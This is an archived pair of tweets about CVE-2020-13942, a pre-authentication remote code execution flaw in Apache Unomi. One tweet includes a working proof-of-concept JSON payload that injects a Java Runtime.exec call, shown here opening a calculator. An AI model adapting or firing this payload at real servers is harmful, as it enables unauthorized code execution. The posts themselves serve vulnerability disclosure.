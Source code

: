 
# pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at 2020-11-18, 04:38:42_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>

<table><tr>
<td><img src="pictures/9c640f2a17ed89810f2e1a006ad4e499e0a39f499ab6bc70268e608cae2ee4a7.jpg" alt="9c640f2a17ed89810f2e1a006ad4e499e0a39f499ab6bc70268e608cae2ee4a7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1328912309440311297 _at 2020-11-18, 04:05:59_**
<blockquote>
CVE-2020-13942 Apache Unomi pre-auth RCE (bypass CVE-2020-11975 ) https://t.co/q7ppLTJdiT
</blockquote>
